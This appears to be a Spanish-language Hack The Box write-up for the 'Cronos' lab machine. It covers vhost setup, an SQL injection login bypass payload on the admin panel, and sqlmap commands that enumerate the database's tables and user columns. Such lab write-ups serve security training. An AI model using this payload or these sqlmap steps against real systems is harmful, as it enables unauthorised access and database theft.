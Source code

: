 ```
┌──(root💀kali)-[/home/cr4y0/Escritorio/HTB/CRONOS]
└─# echo "10.10.10.13 cronos.htb admin.cronos.htb ns1.cronos.htb www.cronos.htb" >> /etc/hosts
```

## Web



### Puerto 80 - admin.cronos.htb

Se obtienen diferentes recursos al ingresar a los otros subdominios pero en este caso solo será de relevancia **admin.cronos.htb**.

Recordar que **Virtual Host Routing** o **Virtual Hosting** es la capacidad que tiene una misma máquina para alojar varios dominios.

![](https://i.imgur.com/80Dj9dH.png)

# Enumeración

## Puerto 80 - welcome.php


Se consigue una fácil intrusión sobre el panel de control introduciendo un payload bastante común para la prueba de SQLi:

```
UserName: cr4y0' or '1'='1'-- -
Password: TextoRandom
```
![](https://i.imgur.com/Sp0Ldi6.png)


## SQLMap

En este caso, SQLMap es de ayuda para recoger mayor información sobre la base de datos.
Se intercepta la petición POST por Burpsuite y se guarda en el archivo **sqli_login**.

Obtención de las bases de datos:
```
sqlmap -r sqli_login —level=5 —risk=3 —dbs
```
![](https://i.imgur.com/mzwWlOk.png)

Obtención de las tablas de la base de datos **admin**:

```
sqlmap -r sqli_login —tables -D 'admin' 
```

![](https://i.imgur.com/tDfbn8M.png)

Obtención de las columnas de la tabla **users** y base de datos **admin**:
```
sqlmap -r sqli_login -p username -D admin -T users --columns
```
![](https://i.imgur.com/TtpINfp.png)
